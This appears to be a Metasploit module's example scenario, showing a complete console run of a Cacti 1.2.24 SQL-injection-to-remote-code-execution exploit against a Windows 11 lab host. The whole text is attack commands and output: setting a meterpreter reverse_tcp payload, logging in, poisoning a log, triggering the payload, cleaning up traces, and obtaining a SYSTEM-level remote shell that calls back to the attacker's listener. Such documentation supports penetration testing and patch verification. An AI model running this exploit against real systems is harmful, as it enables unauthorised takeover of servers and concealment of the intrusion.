 ### Cacti version 1.2.24 on Windows 11
```
msf exploit(multi/http/cacti_pollers_sqli_rce) > set target 1
target => 1
msf exploit(multi/http/cacti_pollers_sqli_rce) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/cacti_pollers_sqli_rce) > run rhost=192.168.144.134 lhost=192.168.144.1 username=msfuser password=12345678

[*] Started reverse TCP handler on 192.168.144.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.24
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `pollers.php`
[*] Attempting SQLi to check if the target is vulnerable
[+] The target is vulnerable.
[*] Backing up the current log file path and adding a new path (log/cacti715.log) to the `settings` table
[*] Inserting the log file path `log/cacti715.log` to the external links table
[*] Getting the user ID and setting permissions (it might take a few minutes)
[*] Logging again to apply new settings and permissions
[*] Getting the CSRF token to login
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Poisoning the log
[*] Triggering the payload
[*] Sending stage (200774 bytes) to 192.168.144.134
[*] Cleaning up log file
[*] Meterpreter session 7 opened (192.168.144.1:4444 -> 192.168.144.134:64144) at 2024-01-29 21:58:59 +0100
[*] Cleaning up external link using SQLi
[*] Cleaning up permissions using SQLi
[*] Cleaning up the log path in `settings` table using SQLi

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-26CQRHP
OS              : Windows 11 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
